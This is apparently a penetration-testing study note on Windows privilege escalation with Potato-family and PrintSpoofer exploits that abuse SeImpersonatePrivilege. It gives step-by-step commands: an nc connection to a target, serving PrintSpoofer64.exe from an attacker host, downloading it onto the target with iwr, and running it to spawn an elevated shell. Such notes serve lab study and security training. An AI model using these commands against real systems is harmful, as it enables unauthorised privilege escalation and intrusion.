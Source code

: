 
##### Exploits 
- Can exploit windows applications or the Windows Kernel itself
	- Has chance of BSODing the box
- Common windows piv esc exploits: Potato family (RottenPotato SweetPotato JuicyPotato)
- Example abuses SeImpersonatePrivilegeToken of a non-system user

Steps:
1. Connect to target and check privs
	- Verify SeImpersonatePrivilege is enabled
2. Download exploit to attack box and serve to target 
3. Execute


```
1.
nc 192.168.50.220 4444
whoami /priv

2.
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80

iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

3.
.\PrintSpoofer64.exe -i -c powershell.exe

```